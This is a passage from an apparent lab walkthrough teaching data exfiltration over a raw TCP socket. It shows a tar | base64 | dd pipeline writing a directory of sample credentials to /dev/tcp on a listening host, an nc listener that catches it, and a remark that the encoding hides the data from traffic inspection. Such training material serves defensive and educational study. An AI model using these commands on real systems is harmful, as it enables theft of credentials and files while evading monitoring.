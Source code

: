 We can also connect directly from the AttackBox using port 2022 as follows,

```markup
root@AttackBox$ ssh thm@10.10.39.16 -p 2022
```

We have the required data ready to be transmitted on the victim machine. In this case, we have a sample file with a couple of credentials.

Checking the creds.txt file on the victim machine  

```markup
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

Now that we have the credential text file, we will use the TCP socket to exfiltrate it. **Make sure the listener is running on the JumpBox**.

Exfiltrate Data overTCPSocket from the victim machine!  

```markup
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

Let's break down the previous command and explain it:

1. We used the tar command to create an archive file with the zcf arguments of the content of the secret directory.
2. The z is for using gzip to compress the selected folder, the c is for creating a new archive, and the f is for using an archive file.
3. We then passed the created tar file to the base64 command for converting it to base64 representation.
4. Then, we passed the result of the base64 command to create and copy a backup file with the dd command using EBCDIC encoding data.
5. Finally, we redirect the dd command's output to transfer it using the TCP socket on the specified IP and port, which in this case, port 8080.

Note that we used the Base64 and EBCDIC encoding to protect the data during the exfiltration. If someone inspects the traffic, it would be in a non-human readable format and wouldn't reveal the transmitted file type.

Once we hit enter, we should receive the encoded data in the /tmp/ directory.

Checking the received data on the JumpBox   

```markup
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```
